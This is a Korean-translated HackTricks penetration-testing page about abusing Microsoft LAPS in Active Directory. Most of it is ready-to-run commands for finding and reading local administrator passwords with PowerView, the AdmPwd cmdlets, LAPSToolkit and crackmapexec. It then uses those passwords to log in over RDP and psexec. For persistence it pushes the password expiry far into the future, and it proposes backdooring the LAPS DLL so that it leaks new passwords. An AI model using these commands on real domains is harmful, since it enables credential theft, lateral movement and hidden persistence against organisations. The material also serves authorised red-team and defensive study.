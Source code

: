 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Basic Information

로컬 관리자 비밀번호 솔루션(Local Administrator Password Solution, LAPS)은 **고유하고 무작위이며 자주 변경되는** **관리자 비밀번호**를 도메인에 가입된 컴퓨터에 적용하기 위해 사용되는 도구입니다. 이러한 비밀번호는 Active Directory 내에 안전하게 저장되며, Access Control Lists (ACLs)를 통해 권한이 부여된 사용자만 접근할 수 있습니다. 클라이언트에서 서버로의 비밀번호 전송 보안은 **Kerberos 버전 5**와 **고급 암호화 표준(AES)**를 사용하여 보장됩니다.

도메인의 컴퓨터 객체에서 LAPS의 구현은 두 개의 새로운 속성인 **`ms-mcs-AdmPwd`**와 **`ms-mcs-AdmPwdExpirationTime`**을 추가합니다. 이 속성들은 각각 **평문 관리자 비밀번호**와 **만료 시간**을 저장합니다.

### Check if activated
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPS 비밀번호 접근

당신은 **원시 LAPS 정책을 다운로드할 수 있습니다** `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` 그리고 **`Parse-PolFile`**를 사용하여 [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) 패키지에서 이 파일을 사람이 읽을 수 있는 형식으로 변환할 수 있습니다.

게다가, **네이티브 LAPS PowerShell cmdlet**을 사용할 수 있습니다. 만약 우리가 접근할 수 있는 머신에 설치되어 있다면:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView**는 **누가 비밀번호를 읽을 수 있는지와 그것을 읽는지** 알아내는 데에도 사용될 수 있습니다:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

[LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)는 여러 기능을 통해 LAPS의 열거를 용이하게 합니다.\
하나는 **LAPS가 활성화된 모든 컴퓨터에 대한 `ExtendedRights`**를 파싱하는 것입니다. 이는 **LAPS 비밀번호를 읽도록 특별히 위임된 그룹**을 보여주며, 이러한 그룹은 종종 보호된 그룹의 사용자입니다.\
**도메인에 컴퓨터를 가입시킨 계정**은 해당 호스트에 대한 `All Extended Rights`를 받으며, 이 권한은 **비밀번호를 읽을 수 있는 능력**을 부여합니다. 열거를 통해 호스트에서 LAPS 비밀번호를 읽을 수 있는 사용자 계정을 보여줄 수 있습니다. 이는 LAPS 비밀번호를 읽을 수 있는 **특정 AD 사용자**를 **타겟팅하는 데** 도움이 될 수 있습니다.
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**
powershell에 접근할 수 없는 경우 LDAP를 통해 이 권한을 원격으로 악용할 수 있습니다.
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
이것은 사용자가 읽을 수 있는 모든 비밀번호를 덤프하여 다른 사용자로 더 나은 발판을 마련할 수 있게 해줍니다.

## ** LAPS 비밀번호 사용 **
```
freerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS 지속성**

### **만료 날짜**

관리자가 되면, **비밀번호를 얻고** **비밀번호 업데이트를 방지**하기 위해 **만료 날짜를 미래로 설정**할 수 있습니다.
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
비밀번호는 **admin**이 **`Reset-AdmPwdPassword`** cmdlet을 사용할 경우 여전히 재설정됩니다. 또는 LAPS GPO에서 **정책에 의해 요구되는 것보다 긴 비밀번호 만료 시간을 허용하지 않음**이 활성화된 경우에도 마찬가지입니다.
{% endhint %}

### 백도어

LAPS의 원본 소스 코드는 [여기](https://github.com/GreyCorbel/admpwd)에서 찾을 수 있으며, 따라서 **새 비밀번호를 유출하거나 어딘가에 저장하는** 백도어를 코드에 삽입할 수 있습니다 (예: `Main/AdmPwd.PS/Main.cs`의 `Get-AdmPwdPassword` 메서드 내부).

그런 다음, 새로운 `AdmPwd.PS.dll`을 컴파일하고 `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll`에 업로드합니다 (그리고 수정 시간을 변경합니다).

## 참고문헌
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
